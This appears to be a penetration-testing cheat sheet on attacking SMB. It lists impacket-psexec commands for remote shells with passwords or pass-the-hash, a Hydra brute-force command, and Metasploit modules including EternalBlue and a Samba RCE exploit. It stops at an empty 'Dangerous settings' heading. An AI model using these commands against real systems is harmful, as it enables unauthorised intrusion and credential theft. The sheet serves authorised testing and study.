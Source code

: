 # Impacket-PsExec
Impacket’s psexec.py offers psexec like functionality. This will give you an interactive shell on the Windows host.

```bash
# Login with AUTHENTICATION (prompt password)
impacket-psexec Administrator@$IP

# Login with HASH
impacket-psexec Administrator@$IP -hashes <hash:hash>
impacket-psexec example.local/Administrator@$IP -hashes <hash:hash>
```

# Hydra

[Hydra](https://github.com/vanhauser-thc/thc-hydra) is a `parallelized` login cracker which `supports numerous protocols` to attack. It is very fast and flexible, and new modules are easy to add.

```bash
hydra -L /wordlists.txt/users.txt -P /wordlists/passwords.txt $IP smb
```

# Metasploit Framework

[Metasploit Framework](https://github.com/rapid7/metasploit-framework) is an open source platform that supports vulnerability research, exploit development, and the creation of custom security tools.

```bash
auxiliary/scanner/smb/smb_version       # SMB version scanner
auxiliary/scanner/smb/smb2              # Detect SMB 2.0 protocol
auxiliary/scanner/smb/smb_enumusers     # Enum users via SAM RPC
auxiliary/scanner/smb/smb_enumshares    # Enum shares and list permissions
auxiliary/scanner/smb/smb_login         # Test a SMB login on a range of machines
auxiliary/scanner/smb/pipe_auditor      # Determine what named pipes are accessible over SMB
exploit/windows/smb/psexec              # Similar to "psexec" utility provided by SysInternals

auxiliary/scanner/smb/smb_ms17_010              # Scan the target for vulnerability
exploit/windows/smb/smb_ms17_010_eternalblue    # Exploit the eternalblue
exploit/linux/samba/is_known_pipename           # Exploiting samba v3.5.0 (RCE)
```

# Config files

```bash
# Default configuration (SAMBA)
cat /etc/samba/smb.conf | grep -v "#\|\;"
```

# Dangerous settings
